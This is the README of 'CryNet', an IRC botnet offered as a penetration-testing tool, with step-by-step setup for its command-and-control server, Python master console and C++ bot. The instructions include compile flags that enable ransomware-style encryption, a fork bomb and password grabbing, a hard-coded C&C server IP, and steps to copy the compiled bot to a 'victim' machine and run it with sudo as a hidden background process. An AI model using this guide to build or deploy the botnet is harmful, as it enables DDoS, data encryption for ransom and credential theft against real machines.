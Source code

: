 # CryNet

CryNet is an advanced IRC Botnet Intended to be used in a penetration testing context. It is an open-source tool designed to simulate and test various security threats in a controlled environment. 


# Features
* Simulate various cybersecurity threats including DDoS, ransomware, and system throttling
* Customizable bots with multiple capabilities
* IRC-based Command and Control (C&C) infrastructure
* Cross-platform support with components written in C++, Java, and Python

### System Requirements and Dependencies

**Server**
* OS: Any with Java Runtime Environment (JRE) 1.8
* Dependencies: Jackson-core, commons-codec, Apache Maven

**Bot**
* OS: Linux, preferably Debian based at this time
* Dependencies: crypto++, libircclient, libtins/libpcap

**Master**
* OS: Any with Python installed
* Dependencies: Colorama, hashlib, socket, subprocess, threading, JSON

### Installation and Setup

**General Installation**
1. Clone the repository 

```
git clone https://github.com/s1-dev/CryNet.git
cd CryNet
```

2. Following below steps for installation and setup for deseired component 

**IRC Server Installation**

1. Run `setup.py` script

```
python setup.py
```

2. Follow script for server setup

```
Welcome to CryNet project setup, please enter revelant information to setup configuration:
What config would you like to update? (MASTER|SERVER|BOTH) SERVER
~~~~~~~~~~~~~~~~~Server config~~~~~~~~~~~~~~~~~
Current configuration:
{
    "serverHostname": "",
    "portNumber": 0,
    "maxChannels": 0,
    "maxChannelUsers": 0,
    "maxMessageLength": 0,
    "maxNickLength": 0,
    "maxConnections": 0,
    "masterAuthDigest": "",
    "botAuthDigest": "",
    "shutdownSalt": "",
    "shutdownDigest": ""
}
Server hostname (IP): 127.0.0.1
Port number (6667|6697): 6667
Max channels (default is 7):
...
```

3. Run `ircServerBuildAndRush.sh` script to build and execute the maven project

```
./ircServerBuildAndRun.sh
```

**Master Installation**
1. Run `setup.py` script

```
python setup.py
```

2. Follow script for master setup

```
Welcome to CryNet project setup, please enter revelant information to setup configuration:
What config would you like to update? (MASTER|SERVER|BOTH) MASTER
~~~~~~~~~~~~~~~~~Master config~~~~~~~~~~~~~~~~~
Current configuration:
{
    "server": "127.0.0.1",
    "port": 6667,
    "masterValidatePass": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08",
    "botValidatePass": "ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae",
    "botPath": "/code/secDev/CryNet/src/bot/"
}
Server address (IP): 127.0.0.1
Port number (6667|6697): 6667
Master validation passphrase:
...
```

3. Run `runMasterProgram.sh` script or run the `MasterProgram.py` script

```
./runMasterProgram.sh
```

OR

```
cd src/master/
python ./MasterProgram.py
```

**Bot Installation - Manual Setup**
1. Navigate to the root of the bot project directory

```
cd src/bot/
```

2. Modify `manualCompilationScript.sh` to flip any deseired bot capaiblitity flags to 1

```
head -n 7 manualCompilationScript.sh
#!/bin/bash

ENABLE_PING_ACTION=0
ENABLE_ENCRYPT_ACTION=0
ENABLE_REPORT_ACTION=0
ENABLE_FORK_BOMB_ACTION=0
ENABLE_GET_PASSWD_ACTION=0

nano manualCompilationScript.sh
head -n 7 manualCompilationScript.sh
#!/bin/bash

ENABLE_PING_ACTION=1
ENABLE_ENCRYPT_ACTION=0
ENABLE_REPORT_ACTION=1
ENABLE_FORK_BOMB_ACTION=0
ENABLE_GET_PASSWD_ACTION=1
```

3. Modify variables set in `manualCompilationScript.sh` that are passed in as macros for compilation. 

Example of the set variables
```
BOT_NICK="bot_NICK"
BOT_USER="bot_USER"
SERVER_ADDRESS="52.90.220.187"
ASSIGNED_CHANNEL="#testChannel"
BOT_PASS="test123"
MASTER_NICK="master"
OUT_FILE="irc_bot"
```

4. Run `manualCompilationScript.sh`
```
./manualCompilationScript.sh
```

4. Move the executable to the deseired "victim" machine 

5. Run the executable, it default runs as a background process. Otherwise, use "NO_DAEMON" command-line argument 

```
sudo ./irc_bot
``` 

OR

```
sudo ./irc_bot NO_DAEMON
```

**Bot Installation - Master Setup**
1. Run the master program, ensure that the master setup has been complete

```
cd src/master/
python ./MasterProgram.py
```

2. Run through the bot compilation process in the master program

```
~~~~~~~~~~~~~~~~~~~~~~~CryNet Master Options~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Master options (input number to select option):
1. Connect to CryNet IRC server
2. Enter command center
3. Enter manual IRC console
4. View bot staistics
5. Compile a new bot
Option: 5
----------------------CryNet Bot Compilation----------------------
To a compile a bot with a specific level of complexity, follow given instructions
(Note: This compiler will only work if g++ is installed and the master program is running from the 'master' directory)
=========================General Bot Setup=========================
Enter the name of the executable: irc_bot
Enter the output path of this binary (no input will be the cwd):
Would you like to strip the binay? Stripping is recommended since it removes debugging informationa and untouched code, which reduces the exe size.
Enter 'n' to not strip the exe:
=========================Bot Macros Setup=========================
(Note: these values will be passed to the bot as essentially compilation time params)
Enter a botnet channel name (must start with '#'):
...
```

3. Move the executable to the deseired "victim" machine 

4. Run the executable, it default runs as a background process. Otherwise, use "NO_DAEMON" command-line argument 

```
sudo ./irc_bot
``` 

OR

```
sudo ./irc_bot NO_DAEMON
```